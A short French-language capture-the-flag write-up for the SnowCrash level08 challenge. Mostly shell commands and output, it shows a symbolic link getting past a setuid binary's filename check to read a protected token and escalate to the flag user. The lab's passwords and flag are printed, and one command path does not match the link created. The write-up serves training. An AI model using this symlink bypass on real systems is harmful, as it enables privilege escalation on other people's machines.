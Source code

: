 ```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
Ici on a 2 fichiers, le token nous interesse mais il n'est pas lisible avec nos droits.
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
On va essayer de contourner les permissions du fichier avec un lien symbolique.
```
level08@SnowCrash:~$ ln -s `pwd`/token /tmp/link  
level08@SnowCrash:~$ ./level08 /tmp/link/link
quif5eloekouj29ke0vouxean
```
On se sert du token pour acceder a flag08.
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
On a le flag, `25749xKZ8L7DkSCwJkT9dyv6f` :tada:
